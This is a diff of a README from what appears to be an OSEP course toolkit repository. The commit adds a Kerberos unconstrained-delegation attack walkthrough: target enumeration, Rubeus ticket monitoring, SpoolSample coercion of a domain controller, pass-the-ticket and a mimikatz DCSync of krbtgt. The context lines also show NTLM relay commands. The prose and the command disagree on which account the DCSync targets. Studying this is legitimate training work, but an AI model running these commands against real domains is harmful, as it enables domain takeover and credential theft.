

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -8,6 +8,8 @@ Just a bunch of tools built/gathered along the OSEP course.
 6. [TCP Port Redirection via powercat.ps1](#TCP-Port-Redirection-via-powercat.ps1)
 7. [MSSQL Useful Queries](#MSSQL-Useful-Queries)
 8. [MSSQLPwner](#MSSQLPwner)
+- [Kerberos Delegation](#Kerberos Delegation)\
+  - [Unconstrained Delegation](#Unconstrained-Delegation)
 
 
 # Tunneling
@@ -170,3 +172,27 @@ ntlmrelayx.py --no-http-server -smb2support -t smb://172.16.192.152 (gonna dump
 sudo responder -I tun0 (make sure SMB is turned OFF in /etc/responder/Responder.conf)
 mssqlpwner user:pass@<MSSQL INSTANCE IP> -windows-auth ntlm-relay <OUR ATTACKING MACHINE>
 ```
+
+# Kerberos Delegation
+
+## Unconstrained Delegation
+
+- Enumerate: `Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl`
+Any computer account that contains the `TRUSTED_FOR_DELEGATION` value in its UserAccountControl (UAC) attribute is a viable target.
+
+### Attack Walkthrough
+
+In a high-integrity PS/CMD prompt on the system configured for Unconstrained Delegation, run Rubeus in monitor mode:
+- `.\Rubeus.exe monitor interval:5 /nowrap`
+
+Next, using a domain credential that you’ve previously compromised, trigger the printerbug.py or SpoolSample on the domain controller:
+- `.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB`
+
+`DC01.HACKER.LAB` is the domain controller we want to compromise
+`HELPDESK.HACKER.LAB` is the machine with delegation enabled that we control.
+
+Now, we can inject the ticket into memory using Rubeus:
+- `.\Rubeus.exe ptt /ticket:<BASE64 STRING>`
+
+To complete the attack, we’ll use mimikatz to perform a DCSync using the DC01$ TGT and request the NTLM hash for the dev\administrator account.
+- `lsadump::dcsync /user:megacorp\krbtgt /domain:megacorp.local`
````
